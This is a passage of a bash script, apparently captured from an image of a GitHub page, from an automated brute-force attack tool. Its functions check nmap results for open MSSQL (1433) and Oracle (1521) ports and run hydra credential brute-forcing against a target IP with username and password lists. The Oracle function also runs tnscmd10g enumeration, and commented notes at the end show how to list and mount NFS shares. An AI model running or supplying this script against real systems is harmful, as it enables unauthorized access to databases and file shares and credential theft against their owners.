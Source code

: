        hydra -C $mssql_up ${targetIP} mssql -S 1433 -e ns -o Output/${targetIP}/mssql_${targetIP}.txt -I -V -t $thread
       hydra -L $windows_u -P $pass ${targetIP} mssql -S 1433 -e ns -o Output/${targetIP}/mssql_1_${targetIP}.txt -I -V -t $thread
       Finished_Brute "${targetIP}"
     else
       echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 1433(mssql) is not open. Skipping to next port..."
     fi

   }
  BruteMSSQL

  # Port 1521 - (Oracle)
  BruteOracle(){
    # - Name:
    # - Version:
    # - Password protected:
    if grep -q 1521/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 1521(oracle) is open. Starting bruteforce...\n"
      sleep 1
      tnscmd10g version -h ${targetIP}
      tnscmd10g status -h ${targetIP}
      hydra -C $oracle_up ${targetIP} oracle -S 1521 -e ns -o Output/${targetIP}/oracle_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
     echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 1521(oracle) is not open. Skipping to next port..."
   fi

  }
  BruteOracle

  ### Port 2049 - NFS
  # showmount -e INSERTIPADDRESS
  ### If you find anything you can mount it like this:
  # mount INSERTIPADDRESS:/ /tmp/NFS
  # mount -t INSERTIPADDRESS:/ /tmp/NFS
